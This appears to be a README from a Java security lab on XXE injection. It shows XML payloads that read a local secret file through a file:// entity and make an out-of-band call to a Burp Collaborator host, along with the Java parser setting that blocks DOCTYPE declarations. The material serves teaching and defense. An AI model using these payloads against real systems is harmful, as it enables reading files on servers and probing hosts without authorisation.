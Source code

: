 # eXternal XML Entities

### useful links

[Эксплуатация уязвимостей eXternal Entity XML (XXE)](https://habr.com/ru/company/pentestit/blog/325270/)

[XML-entities](https://portswigger.net/web-security/xxe/xml-entities)

[XXEinjector](https://github.com/enjoiz/XXEinjector)

Define XML-entity with DTD

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe "XXE Vulnarability Test">
        <!ENTITY xxe2 "XXE Vulnarability Test 02">
        ]>
<bill>
    <product id="26">
        <name>&xxe;</name>
        <quantity>0</quantity>
        <price>0</price>
    </product>
    <product id="28">
        <name>&xxe2;</name>
        <quantity>1</quantity>
        <price>1337</price>
    </product>
    <product id="30">
        <name>Dev stuff</name>
        <quantity>30</quantity>
        <price>1000</price>
    </product>
</bill>
```

Define external XML-entity

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE boo [
        <!ENTITY xxe SYSTEM "file:////C:\\Git\\java\\java-security-labs\\labs\\lab-xxe\\xmls\\mySecretFile">
        ]>
<bill>
    <product id="26">
        <name>&xxe;</name>
        <quantity>0</quantity>
        <price>0</price>
    </product>
    <product id="28">
        <name>Coolhacker</name>
        <quantity>1</quantity>
        <price>1337</price>
    </product>
    <product id="30">
        <name>Dev stuff</name>
        <quantity>30</quantity>
        <price>1000</price>
    </product>
</bill>
```

Preserve XXE-injection
```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
result of injection is:
```java
SAXException was thrown: DOCTYPE is disallowed
```

XXE-injection with server
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE boo [
        <!ENTITY xxe SYSTEM "http://gyiv38a8htdpb0m9zfr7w95tkkqaez.burpcollaborator.net">
        ]>
<bill>
    <product id="26">
        <name>&xxe;</name>
        <quantity>0</quantity>
        <price>0</price>
    </product>
</bill>
```
